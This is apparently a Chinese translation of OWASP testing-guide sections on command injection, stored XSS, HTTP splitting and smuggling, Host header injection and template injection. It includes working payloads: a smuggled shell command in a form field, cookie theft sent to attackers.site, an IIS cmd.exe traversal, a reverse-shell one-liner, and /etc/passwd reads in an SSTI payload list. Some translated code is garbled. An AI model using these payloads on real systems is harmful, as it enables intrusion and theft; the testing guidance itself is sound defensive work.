User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```

如果应用不验证请求，我们可以获取如下的结果：
```
Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0
```

在这个例子中，我们成功的执行了OS注入攻击。

#### 命令注入中的特殊的字符

下列特殊字符可用于命令注入，例如：```| ; & $ > < ' !```

- cmd1|cmd2 : Uses of | will make command 2 to be executed weather command 1 execution is successful or not.
- cmd1;cmd2 : Uses of ; will make command 2 to be executed weather command 1 execution is successful or not.
- cmd1||cmd2 : Command 2 will only be executed if command 1 execution fails.
- cmd1&&cmd2 : Command 2 will only be executed if command 1 execution succeeds.
- $(cmd) : For example, echo $(whoami) or $(touch test.sh; echo 'ls' > test.sh)
- cmd : It's used to execute specific command. For example, whoami
- ```>(cmd): >(ls)```
- ```<(cmd): <(ls)```

#### 危险的API代码复查

要警惕下列API，它们可能引入命令注入风险：
- JAVA 
  - Runtime.exec()
- C/C++
  - system
  - exec
  - ShellExecute
- Python
  - exec
  - eval
  - os.system
  - os.popen
  - subprocess.popen
  - subprocess.call

- PHP
  - system
  - shell_exec
  - exec
  - proc_open
  - eval

### 补救
#### 净化
需要清理URL和表单数据中的无效字符。可以将字符列入黑名单，但是可能很难想到要针对其进行验证的所有字符。也可能有一些尚未被发现。应该创建仅包含允许的字符或命令列表的白名单，以验证用户输入。此列表应消除丢失的角色以及未发现的威胁。

可以包含用于命令注入的常规黑名单：```| ; & $ > < ' \ ! >> #```

转义或过滤Windows的特殊字符，   ```( ) < > & * ‘ | = ? ; [ ] ^ ~ ! . ” % @ / \ : + , ` ```
转义或过滤Linux的特殊字符，```{ } ( ) > < & * ‘ | = ? ; [ ] $ – # ~ ! . ” %  / \ : + , ` ```

#### 权限
Web应用程序及其组件应在不允许操作系统命令执行的严格权限下运行。尝试验证所有这些信息以从灰盒测试的角度进行测试。
### Tools
OWASP WebGoat
Commix
### References
- Penetration Testing for Web Applications (Part Two)
- OS Commanding
- CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')
- ENV33-C. Do not call system()

## 缓冲区溢出测试 Testing for Buffer overflow
ID : WSTG-INPV-13

### 摘要
要查找有关缓冲区溢出漏洞的更多信息，请转到OWASP的“ 缓冲区溢出”漏洞页面。

请参阅有关缓冲区溢出攻击的OWASP文章。

### 测试方法
不同类型的缓冲区溢出漏洞具有不同的测试方法。这是常见的缓冲区溢出漏洞类型的测试方法。

- 测试堆溢出漏洞
- 测试堆栈溢出漏洞
- 测试格式字符串漏洞

### 代码审查
有关如何查看缓冲区溢出和溢出漏洞的代码，请参阅《OWASP代码查看指南》文章。

## 孵化的漏洞测试 Testing for incubated vulnerabilities

ID:WSTG-INPV-14

### 摘要

孵化测试通常也称为持久攻击，它是一种复杂的测试方法，需要多个数据验证漏洞才能起作用。孵化的漏洞通常用于对合法Web应用程序的用户进行“水坑”攻击。

孵化的漏洞具有以下特征：
- 首先，必须将攻击媒介持久化，并将其存储在持久层中，并且仅当存在弱数据验证或数据通过其他渠道传送至系统时才能发生。其它渠道诸如管理控制台、直接地后台批处理过程等。
- 其次，一旦攻击向量被回调（recalled），该向量需要成功执行。例如，孵化的XSS攻击需要弱输出验证，因此脚本将以其可执行形式传递给客户端。


利用某些漏洞，甚至是Web应用程序的功能，攻击者能够植入一段数据，这些数据随后由毫无戒心的用户或系统的其他组件获取，并利用系统中的某些漏洞。

在渗透测试中，孵化的攻击可以使用特定安全问题来构建基于客户端的攻击，该漏洞通常用于同时针对大量受害者。

这种类型的异步攻击涵盖了广泛的攻击向量，其中包括：
- Web应用程序中的文件上传组件，允许攻击者上传有问题的媒体文件（利用jpg图像，利用CVE-2004-0200png图像CVE-2004-0597，可执行文件，具有活动组件的网站页面等）
- 公共论坛帖子中的XSS。攻击者可能潜在地将恶意脚本或代码存储在Web应用程序后端（例如数据库）的存储库中，从而使该脚本/代码由用户之一（最终用户，管理员等）执行。通过在用户论坛，公告板或博客中使用跨站点脚本漏洞来示例性地进行孵化攻击，以便在易受攻击的页面上注入一些JavaScript代码，并最终在站点用户的浏览器中呈现并执行-使用用户浏览器上原始（脆弱）网站的信任级别。
- SQL / XPATH注入允许攻击者将内容上载到数据库，稍后会将其作为网页中活动内容的一部分进行检索。例如，如果攻击者可以在公告板上发布任意JavaScript，以便用户执行它，那么他可以控制他们的浏览器（例如XSS-proxy）。
- 配置错误的服务器允许安装Java软件包或类似的网站组件（例如Tomcat，或Web托管控制台，例如Plesk，CPanel，Helm等）

### 测试方法
#### 黑匣子测试
##### 文件上传示例

验证允许上传到Web应用程序的内容类型以及上传文件的结果URL。上传一个文件，当用户查看或下载该文件时，它将利用本地用户工作站中的组件。向您的受害者发送电子邮件或其他类型的警报，以使他（她）浏览页面。预期的结果是，当用户浏览生成的页面或从受信任的站点下载并执行文件时，将触发漏洞利用。

##### 公告板上的XSS示例
1.将JavaScript代码植入易受攻击字段值中，例如： ```<script>document.write('')</script>```

2.引导用户浏览易受攻击的页面或等待用户浏览它。让attackers.site主机上的“侦听器” 侦听所有传入的连接。

3.当用户浏览易受攻击的页面时，包含其cookie（document.cookie）的请求将被发送到attackers.site主机，例如：
```
GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE;
    ％20JSESSIONID = ADIFFERENTVALUE：-1;％20ExpirePage = https：//vulnerable.site/site/;
    令牌= 28_Sep_2006_21：46：36_GMT HTTP / 1.1
```

4.使用获得的Cookie来冒充易受攻击站点的用户。

##### SQL注入示例
通常，这组示例通过利用SQL注入漏洞利用XSS攻击。要测试的第一件事是目标站点是否具有SQL注入漏洞。测试SQL注入中对此进行了描述。对于每个SQL注入漏洞，都有一组底层约束来描述允许攻击者/笔测试者执行的查询的类型。

然后，测试人员必须将他设计的XSS攻击与允许插入的条目进行匹配。

1.以与先前XSS示例类似的方式，使用易受SQL注入问题影响的网页字段来更改数据库中的值，该值将由应用程序用作输入，以在未经适当过滤的情况下显示在站点上（这将是SQL注入和XSS问题的组合）。例如，假设footer数据库中有一个表，其中包含网站页面的所有页脚，其中包括一个notice带有法律声明的字段，该字段显示在每个网页的底部。您可以使用以下查询将JavaScript代码注入数据库中表的notice字段中footer。
```sql
SELECT  FIELD1，FIELD2，字段3 `
  FROM TABLE_X 
 WHERE FIELD2 = 'X'; 
    UPDATE页脚
    SET通知= '版权1999至2030年％20 
        <SCRIPT>文件撰写（\'  \”）</ script>' 
    WHERE notice ='Copyright 1999-2030';
```
2.现在，每个浏览该站点的用户都将以静默方式将其cookie发送到attackers.site（步骤b.2至b.4）。

##### 错误配置的服务器
某些Web服务器提供了一个管理界面，该界面可能允许攻击者将其选择的活动组件上载到站点。Apache Tomcat服务器可能会遇到这种情况，该服务器不强制使用强权凭证来访问其Web应用程序管理器（或者笔测试人员已经能够通过其他方式获得管理模块的有效凭证）。

在这种情况下，可以上传WAR文件并在站点上部署新的Web应用程序，这不仅允许笔测试器在服务器上本地执行自己选择的代码，而且还可以将应用程序植入受信任的站点，站点普通用户可以访问的站点（最有可能具有比访问其他站点更高的信任度）。

同样显而易见的是，通过在主机上可能利用的任何漏洞来改变服务器上网页内容的能力，这些漏洞将为攻击者提供webroot的写权限，这对于在网络服务器上植入这种经过攻击的攻击也将非常有用。页（实际上，这是某些Web服务器蠕虫的已知感染传播方法）。

#### 灰盒测试
灰盒或白盒测试技术将与前面讨论的相同。

检查输入验证是缓解此漏洞的关键。如果企业中的其他系统使用相同的持久层，则它们的输入验证可能会很弱，并且数据可能会通过持久化back door。
为了解决back door客户端攻击的问题，还必须使用输出验证，这样，污染的数据应在显示给客户端之前进行编码，因此无法执行。

### tools
XSS-proxy
OWASP Zed Attack Proxy (ZAP)
Burp Suite
Metasploit

### References
Most of the references from the Cross-site scripting section are valid. As explained above, incubated attacks are executed when combining exploits such as XSS or SQL-injection attacks.

#### Advisories
CERT(R) Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests
Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site scripting vulnerability
#### Whitepapers
Web Application Security Consortium “Threat Classification, Cross-site scripting”

## HTTP切片与走私测试 Testing for HTTP Splitting/Smuggling

ID : WSTG-INPV-15

### 摘要

本节说明了利用HTTP协议特定功能的攻击示例，这些攻击通过利用了Web应用程序的弱点或不同代理解释HTTP消息的方式的特殊性。本节将分析针对特定HTTP标头的两种不同的攻击：
- HTTP切片（splitting）
- HTTP走私（smuggling）


第一种HTTP切片攻击，利用了缺乏输入清洗功能，入侵者能在应用程序响应的标头中插入CR和LF字符，并将响应“切分”到两个不同的HTTP消息中。攻击的目标可以从缓存投毒到跨站点脚本攻击。

在第二次HTTP走私攻击中，攻击者利用了某些特制的HTTP消息会因为接收它们的代理不同而进行不同的解析和解释。HTTP走私，需要处理HTTP消息的不同代理（Web服务器，代理，防火墙）的某种程度的知识。

### 测试方法
#### 黑匣子测试
##### HTTP拆分

某些Web应用程序使用部分用户输入来生成其响应的某些标头的值。最直接的示是网页重定向，特别是根据用户提交的值确定目标URL的那类。


例如，用户要选择标准或是高级Web界面。该选择将作为参数传递，该参数将在响应头中使用，以触发重定向到相应页面的操作。更具体地说，如果参数“ interface”具有值“ advanced”，则应用程序将回答以下问题：
```
HTTP/1.1 302 Moved Temporarily
Date: Sun, 03 Dec 2005 16:22:19 GMT
Location: http://victim.com/main.jsp?interface=advanced
<snip>
```
收到此消息后，浏览器会将用户带到Location标头中指示的页面。但是，如果应用程序不过滤用户输入，则可以在“ interface”参数中插入序列```％0d％0a```，代表用于分隔不同行的CRLF序列。此时，测试人员将能够触发一个响应，碰巧对其进行解析的任何人都将其解释为两种不同的响应，例如，位于我们与应用程序之间的Web缓存。攻击者可以利用它来投毒Web缓存，以便它将在所有后续请求中提供虚假内容。

假设在前面的示例中，测试人员将以下数据作为接口参数传递：
```advanced%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>```

来自易受攻击的应用程序的最终响应将是：
```
HTTP/1.1 302 Moved Temporarily
Date: Sun, 03 Dec 2005 16:22:19 GMT
Location: http://victim.com/main.jsp?interface=advanced
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 35

<html>Sorry,%20System%20Down</html>
<other data>
```
网络缓存将看到两个不同的响应，因此，如果攻击者在第一个请求之后立即发送第二个请求/index.html，则网络缓存会将此请求与第二个响应进行匹配并缓存其内容，以便将所有后续请求定向到victim.com/index.html通过该Web缓存将收到“系统关闭”消息。这样，攻击者将能够使用该Web缓存（如果Internet缓存是Web应用程序的反向代理，则是整个Internet）对所有用户有效地破坏站点。

或者，攻击者可以向这些用户传递一个JavaScript代码段，该代码段进行跨站点脚本攻击，例如窃取cookie。请注意，当漏洞位于应用程序中时，此处的目标是其用户。因此，为了寻找此漏洞，测试人员需要识别影响响应中一个或多个标头的所有用户控制输入，并检查他/她是否可以在其中成功插入CR + LF序列。

最有可能是此攻击的标头是：
- Location
- Set-Cookie

必须指出的是，在现实情况下成功利用此漏洞可能非常复杂，因为必须考虑以下几个因素：
- 渗透测试必须在假响应中正确设置标头才能成功缓存它（例如，带有将来设置日期的Last-Modified标头）。他/她可能还必须通过发出带有```Pragma: no-cache```请求标头的初步请求，来销毁先前缓存的目标网页的缓存版本。
- 该应用程序在不过滤CR + LF序列的情况下，可能会过滤成功攻击所需的其他字符（例如<和>）。在这种情况下，测试人员可以尝试使用其他编码（例如UTF-7）
- 某些目标（例如ASP）将对位置标头（例如www.victim.com/redirect.asp）的路径部分进行URL编码，从而使CRLF序列无用。但是，它们无法对查询部分进行编码（例如，```?interface = advanced```），这意味着前导问号足以绕过此过滤.

有关此攻击的更详细讨论以及有关可能的方案和应用程序的其他信息，请查看本节底部引用的论文。

#### 灰盒测试
##### HTTP拆分
知道Web应用程序和攻击目标的一些详细信息，对成功利用HTTP拆分很有帮助。例如，不同的目标可以使用不同的方法来决定第一个HTTP消息何时结束以及第二个HTTP消息何时开始。如上例所示，有些将使用消息边界。其他目标将假定不同的消息将由不同的数据包承载。其他消息将为每个消息分配多个预定长度的块：在这种情况下，第二个消息将必须恰好在块的开头开始，这将要求测试人员在两个消息之间使用填充。当在URL中发送易受攻击的参数时，这可能会引起一些麻烦，因为很长的URL可能会被截断或过滤。

##### HTTP走私
如引言中所述，不同的代理（浏览器，Web缓存，应用程序防火墙）解析和解释特殊HTTP消息时有不同的处理方式，HTTP走私利用了这一点。这种相对新颖的攻击最初是由Chaim Linhart，Amit Klein，Ronen Heled和Steve Orrin于2005年发现的。有几种可能的应用程序，我们将分析其中一种最引人注目的应用程序：绕过应用程序防火墙。请参阅原始白皮书（在此页面底部链接）以获取更多详细信息和其他方案。

###### 应用防火墙绕过
有多种产品使系统管理员可以根据请求中嵌入的某些已知恶意模式来检测和阻止恶意Web请求。例如，考虑对IIS服务器的臭名昭著的旧Unicode目录遍历攻击，在这种攻击中，攻击者可以通过发出以下请求来破坏www根目录：

```http://target/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+<command_to_execute>```

当然，通过URL中类似“ ..”和“ cmd.exe”之类的字符串来发现和过滤这种攻击非常容易。但是，IIS 5对于POST请求非常挑剔，其正文最大为48K字节，并且当```Content-Type```标头不同于```application/x-www-form-urlencoded```时，会截断超出此限制的所有内容。渗透测试器可以通过创建一个非常大的请求来利用这一点，其结构如下：
```
POST /target.asp HTTP/1.1        <-- Request #1
Host: target
Connection: Keep-Alive
Content-Length: 49225
<CRLF>
<49152 bytes of garbage>
```

```
POST /target.asp HTTP/1.0        <-- Request #2
Connection: Keep-Alive
Content-Length: 33
<CRLF>
```

```
POST /target.asp HTTP/1.0        <-- Request #3
xxxx: POST /scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir HTTP/1.0   <-- Request #4
Connection: Keep-Alive
<CRLF>
```

此处发生的是，Request #1它由49223个字节组成，其中还包括的行Request #2。因此，防火墙（或IIS 5.0以外的任何其他代理）将看到请求＃1，将无法看到Request #2（其数据将仅是＃1的一部分），将看到Request #3并丢失Request #4（因为POST将仅是伪造的一部分）标头xxxx）。

现在，IIS 5.0会发生什么？它将Request #1在49152字节的垃圾之后立即停止解析（因为它将达到48K = 49152字节的限制），因此将Request #2作为新的单独请求进行解析。Request #2声称它的内容是33个字节，其中包括直到“ xxxx：”为止的所有内容，使IIS丢失Request #3（被解释为的一部分Request #2），但Request #4由于它的POST在第33个字节或之后立即开始而丢失了Request #2。这有点复杂，但要点是防火墙不会检测到攻击URL（它将被解释为先前请求的主体），但是IIS会正确分析（并执行）攻击URL。

在上述情况下，该技术利用了Web服务器的错误，但在其他情况下，我们可以利用不同的方式，使启用HTTP的不同设备解析不符合RFC 1005的消息。例如，HTTP协议仅允许一个Content-Length标头，但没有指定如何处理具有此标头的两个实例的消息。一些实现将使用第一个实现，而另一些实现将更喜欢第二个实现，从而清除了HTTP走私攻击的方式。另一个示例是在GET消息中使用Content-Length标头。

请注意，HTTP走私确实会```*not*```利用目标Web应用程序中的任何漏洞。因此，要进行渗透测试，要说服客户无论如何都应寻求对策，可能有些棘手。

### 参考文献

Whitepapers
Amit Klein, “Divide and Conquer: HTTP Response Splitting, Web Cache Poisoning Attacks, and Related Topics”
Amit Klein: “HTTP Message Splitting, Smuggling and Other Animals”
Amit Klein: “HTTP Request Smuggling - ERRATA (the IIS 48K buffer phenomenon)”
Amit Klein: “HTTP Response Smuggling”
Chaim Linhart, Amit Klein, Ronen Heled, Steve Orrin: “HTTP Request Smuggling”

## HTTP入站请求测试 Testing for HTTP Incoming Requests

ID WSTG-INPV-16

### 摘要
本节介绍如何在客户端或Web服务器端监视所有传入/传出的HTTP请求。该测试的目的是验证在后台是否发送了不必要或可疑的HTTP请求。

大多数Web安全测试工具（例如AppScan，BurpSuite，ZAP）都充当HTTP代理。这将需要在客户端应用程序或浏览器上更改代理。下面列出的测试技术主要侧重于我们如何监视HTTP请求而无需更改客户端（这将更接近于生产使用情况）。

### 测试目标
- 监视对Web服务器的所有传入和传出HTTP请求，以检查所有可疑请求。
- 监视HTTP流量，而无需更改最终用户浏览器代理或客户端应用程序。

### 测试方法
#### 反向代理
在某些情况下，我们希望在Web服务器端监视所有HTTP传入请求，但无法在浏览器或应用程序客户端更改配置。在这种情况下，我们可以在Web服务器端设置反向代理，以监视Web服务器端的所有传入/传出请求。

对于Windows平台，建议使用Fiddler。它不仅提供监视功能，还可以编辑/回复HTTP请求。有关如何将Fiddler配置为反向代理的信息，请参考此参考。

对于Linux平台，可以使用Charles Web调试代理。

测试步骤：
- 在Web服务器上安装Fiddler或Charles
- 将Fiddler或Charles配置为反向代理
- 捕获HTTP流量
- 检查HTTP流量
- 修改HTTP请求并重播修改后的请求以进行测试

#### 转发端口
端口转发是允许我们拦截HTTP请求而无需更改客户端的另一种方法。您还可以将Charles用作SOCKS代理，以充当端口转发或使用端口转发工具。它将使我们能够将所有即将到来的客户端捕获的流量转发到Web服务器端口。

测试流程为：
- 在另一台计算机或Web服务器上安装Charles或端口转发
- 将Charles作为Socks代理配置为端口转发。

#### TCP级网络流量捕获
此技术在TCP级别监视所有网络流量。可以使用TCPDump或WireShark工具。但是，这些工具不允许我们编辑捕获的流量并发送修改后的HTTP请求进行测试。要重播捕获的流量（PCAP）数据包，可以使用Ostinato。

测试步骤将是：
- 在Web服务器端激活TCPDump或WireShark以捕获网络流量
- 监视捕获的文件（PCAP）
- 根据需要通过Ostinato工具编辑PCAP文件
- 回复HTTP请求

推荐使用Fiddler或Charles，因为这些工具可以捕获HTTP流量，并且还可以轻松地编辑/回复修改后的HTTP请求。另外，如果Web流量是HTTPS，则Wireshark将需要导入Web服务器私钥以检查HTTPS消息正文。否则，捕获到的流量的HTTPS消息正文将全部被加密。

### 工具类
Fiddler
TCPProxy
Charles Web Debugging Proxy
WireShark
PowerEdit-Pcap
pcapteller
replayproxy
Ostinato

## 主机头部注入测试 Testing for Host Header Injection
ID WSTG-INPV-17

### 摘要
Web服务器通常在同一IP地址上托管多个Web应用程序，并通过虚拟主机引用每个应用程序。在传入的HTTP请求中，Web服务器通常根据Host标头中提供的值将请求分派到目标虚拟主机。如果没有正确验证标头值，则攻击者可能提供无效输入，从而导致Web服务器执行以下操作：
- 将请求分派到列表中的第一个虚拟主机
- 导致重定向到攻击者控制的域
- 执行Web缓存中毒
- 操作密码重置功能

### 测试方法
初始测试就像将```attacker.com```加入Host标头字段中一样简单。Web服务器处理标头值的方式决定了影响。当Web服务器处理输入以将请求发送到攻击者控制域的主机，而不是发送给Web服务器上的内部虚拟主机的请求时，攻击有效。
```
GET / HTTP/1.1
Host: www.attacker.com
Cache-Control: max-age=0
Connection: Keep-alive
Accept-Encoding: gzip, deflate, br
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
```

在最简单的情况下，这可能会导致302重定向到提供的域。
```
HTTP/1.1 302 Found
...
Location: http://www.attacker.com/login.php
```

或者，Web服务器可以将请求发送到列表中的第一虚拟主机。

#### X-Forwarded Host Header Bypass

如果```Host```字段的注入被检查机制所限制，你可以将值填充在```X-Forwarded-Host```中。

```
GET / HTTP/1.1
Host: www.example.com
X-Forwarded-Host: www.attacker.com
...
```
可能产生客户端输出，例如：
```
...
 < link  src =“ http://www.attacker.com/link ” /> 
...
```

能否成功取决于Web服务器如何处理标头值。

#### Web缓存中毒
使用此技术，攻击者可以操纵网络缓存将中毒的内容提供给任何请求该内容的人。这取决于毒害由应用程序本身，CDN或其他下游提供程序运行的缓存代理的能力。结果，受害者在请求易受攻击的应用程序时将无法控制接收恶意内容。

```
GET / HTTP/1.1
Host: www.attacker.com
...
```
当受害者访问易受攻击的应用程序时，将从Web缓存中提供以下内容。
```
...
<link src="http://www.attacker.com/link" />
...
```
#### 密码重置中毒
创建使用生成的机密令牌的密码重置链接时，密码重置功能通常会包含主机标头值。如果应用程序处理了由攻击者控制的域以创建密码重置链接，则受害者可以单击电子邮件中的链接，并允许攻击者获得重置令牌，从而重置受害者的密码。

```
... Email snippet ...

Click on the following link to reset your password:

http://www.attacker.com/index.php?module=Login&action=resetPassword&token=<SECRET_TOKEN>

... Email snippet ...
```
### 参考文献
https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/07-Input_Validation_Testing/17-Testing_for_Host_Header_Injection.md

## 服务端模板注入测试 Testing for Server Side Template Injection
ID : WSTG-INPV-18

### 摘要
Web应用程序通常使用服务器端模板技术（Jinja2，Twig，FreeMaker等）来生成动态HTML响应。当用户输入以不安全的方式嵌入模板时，会发生服务器端模板注入漏洞（SSTI），并导致在服务器上远程执行代码。任何支持高级用户提供的标记的功能都可能受到SSTI的攻击，包括Wiki页面，评论，营销应用程序，CMS系统等。某些模板引擎采用了各种机制（例如，沙箱，白名单等）来防止SSTI。

#### 示例-Twig

下面的示例摘自[Extreme Vulnerable Web Application](https://github.com/s4n7h0/xvwa)项目。

```php
public function getFilter($name)
{
        [snip]
        foreach ($this->filterCallbacks as $callback) {
        if (false !== $filter = call_user_func($callback, $name)) {
            return $filter;
        }
    }
    return false;
}
```

在getFilter函数中，```call_user_func($callback, $name)```它容易受到SSTI的攻击：该name参数是从HTTP GET请求中获取并由服务器执行的：

#### 示例-Flask / Jinja2
以下示例使用Flask和Jinja2模板引擎。该page函数从HTTP GET请求接受一个'name'参数，并使用name变量content 呈现HTML响应：

```python
@app.route("/page")
def page():
    name = request.values.get('name')
    output = Jinja2.from_string('Hello ' + name + '!').render()
    return output
```
此代码段易受XSS攻击，但也易受SSTI攻击。在name参数中使用以下内容作为有效负载：
```shell
$ curl -g 'http://www.target.com/page?name={{7*7}}'
Hello 49!
```

### 测试方法
SSTI漏洞存在于文本或代码上下文中。在纯文本上下文中，允许用户将自由格式的“文本”与直接HTML代码一起使用。在代码上下文中，用户输入也可以放在模板语句中（例如，以变量名形式）。在这两种情况下，测试方法均具有以下步骤：
- 识别模板注入漏洞点
- 识别模板引擎
- 建立漏洞

#### 识别模板注入漏洞
在纯文本上下文中测试SSTI的第一步是构造由各种模板引擎用作有效负载的通用模板表达式，并监视服务器响应以识别服务器执行了哪个模板表达式。

常见的模板表达式示例：
```
a{{bar}}b
a{{7*7}}
{var} ${var} {{var}} <%var%> [% var %]
```
在此步骤中，建议使用[ template expression test strings/payloads list](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) 。内容如下：

```
{{4*4}}[[5*5]]
{{7*7}}
{{7*'7'}}
<%= 7 * 7 %>
${3*3}
${{7*7}}
@(1+2)
#{3*3}
#{ 7 * 7 }
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>
{{'a'.toUpperCase()}} 
{{ request }}
{{self}}
<%= File.open('/etc/passwd').read %>
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}
{$smarty.version}
{php}echo `id`;{/php}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}
${T(java.lang.System).getenv()}
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

在代码上下文中测试SSTI略有不同。首先，测试人员构造导致空白或错误​​服务器响应的请求。在下面的示例中，personal_greeting在模板语句中插入了HTTP GET参数info变量：

```
personal_greeting=username
Hello user01
```
使用以下有效负载-服务器响应为空白“ Hello”：

```
personal_greeting=username<tag>
Hello
```
下一步是打破模板语句，注入HTML标记

```
personal_greeting=username}}<tag>
Hello user01 <tag>
```
#### 识别模板引擎
基于上一步的信息，测试人员必须通过提供各种模板表达式来确定使用哪个模板引擎。根据服务器的响应，测试人员可以推断出所使用的模板引擎。
[Burpsuite SSTI](https://portswigger.net/research/server-side-template-injection)这样描述：
在检测到模板注入后，下一步是识别使用中的模板引擎。有时此步骤与提交无效语法一样简单，因为模板引擎可以在产生的错误消息中标识自己。但是，当错误消息被抑制时，该技术将失败，并且不适用于自动化。相反，我们使用特定于语言的有效负载的决策树在Burp Suite中实现了自动化。绿色和红色箭头分别表示“成功”和“失败”响应。在某些情况下，单个有效负载可以具有多个不同的成功响应-例如，探针{{7 *'7'}}会在Twig中产生49，在Jinja2中产生7777777，并且如果没有使用模板语言，则不会。




为了自动识别SSTI漏洞和模板引擎，可以使用各种工具，包括Tplmap或Backslash Powered Scanner Burp Suite扩展。

#### 建立RCE渗透

此步骤的主要目标是通过研究模板文档，来确定使用RCE漏洞获得对服务器的进一步控制。主要关注领域是：
- 对于模板作者，涉及基本语法的部分。
- 安全注意事项部分。
- 内置方法，函数，过滤器和变量的列表。
- 扩展/插件列表。


测试人员还可以通过关注```self```，来识别其它暴露的对象、方法或属性。如果该self对象不可用，并且文档中没有透露技术细节，则建议使用变量名的穷举。一旦确定了对象，下一步就是遍历对象，以识别可通过模板引擎访问的所有方法，属性和属性。这可能会导致其他类型的安全性发现，包括特权升级，有关应用程序密码，API密钥，配置和环境变量的信息泄露等。

### 参考
James Kettle: Server-Side Template Injection:RCE for the modern webapp (whitepaper)
Server-Side Template Injection
